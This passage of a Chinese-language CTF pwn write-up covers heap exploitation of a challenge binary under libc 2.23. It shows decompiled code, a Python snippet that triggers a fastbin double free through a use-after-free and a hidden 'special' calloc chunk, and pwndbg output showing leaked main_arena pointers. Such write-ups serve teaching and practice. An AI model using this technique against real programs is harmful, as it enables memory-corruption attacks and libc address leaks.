 ```c
    if ( v6 == 4 )
      break;
    if ( v6 == 666 )
      special();
  }
  return 0LL;
}
```

## 思路概述

创建的chunk不能大于128(十进制)，没有unsortedbin，但是有UAF可以形成double free

但是又不能指定chunk释放，libc2.23的double free又需要中间夹着一个，这时候就要用到special里面的chunk

通过fastbin切割得到small bin去指向main_arena

代码如下

通过切割calloc生成的fastbin产生small bin达到获取libc指针

```python 
#double free 
calloc_A0('a'*0xA0)
add(0x60,'b'*0x60)
calloc_del()
add(0x60,'a'*0x60)
add(0x60,'a'*0x60)
delete()
calloc_del()
delete()
```

gdb结果如下,这样我们就得到个可控的fd bk指针

```c
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x1b99000
Size: 0x71
fd: 0x1b99120

Free chunk (smallbins) | PREV_INUSE
Addr: 0x1b99070
Size: 0x41
fd: 0x7fa8af6aeba8
bk: 0x7fa8af6aeba8

Allocated chunk
Addr: 0x1b990b0
Size: 0x70

Free chunk (fastbins) | PREV_INUSE
Addr: 0x1b99120
Size: 0x71
fd: 0x1b99000

Top chunk | PREV_INUSE
Addr: 0x1b99190
Size: 0x20e71

```

